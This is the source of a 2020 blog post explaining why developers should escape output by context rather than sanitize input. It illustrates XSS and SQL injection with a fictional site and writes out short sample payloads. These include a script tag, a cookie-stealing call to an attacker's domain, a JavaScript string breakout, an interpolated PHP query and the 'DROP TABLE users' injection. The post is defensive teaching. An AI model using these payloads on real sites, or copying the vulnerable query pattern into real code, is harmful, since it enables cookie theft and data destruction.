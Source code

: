 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should (always) escape output correctly, but generally not sanitize or filter user input.
---
```

<h1><a href="{{ page.permalink }}">{{ page.title }}</a></h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


### How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site "repeats back verbatim" to them in the HTML. The might be minor (HTML that breaks the page layout) or major (JavaScript that sends the users login cookie to the attacker's site). Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is shown on your public profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Yo ho ho!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML which includes the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookies')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


### Why input filtering isn't a great idea

A developer has heard about "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob's middle name is Jane. Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have an HTML template that looks like this:

    <html>
    ...
    <script>
    var name = "<?=$name?>";
    </script>

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary code on any NaiveSite pages that display the user's name (which is probably all of them if you're logged in).

Another example is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}';"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


### Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a certain context.

So the better approach is to store whatever name the user enters verbatim, and then have the template language HTML-escape when outputting HTML, or properly escape JSON when outputting JSON or including in JavaScript. And of course use your SQL engine's "parameterized query" features so it properly escapes variables when building SQL.

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript.


### What about when you want raw input?

One tricky situation is when the app's purpose is allowing a user to enter HTML or Markdown for display. You can't escape the HTML when rendering the output, because the whole purpose is to allow them to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1) Allow them to only enter pure Markdown (that is, no raw HTML), and escape HTML as usual. This is the most secure option, but also more restrictive.
2) Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a>` and `<img>`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML, you only have the second option&nbsp;&ndash; you must have a whitelist of HTML tags

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection would be if you're building an app that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([for example](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query.


### Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information good escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4&nbsp;&ndash; the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch!

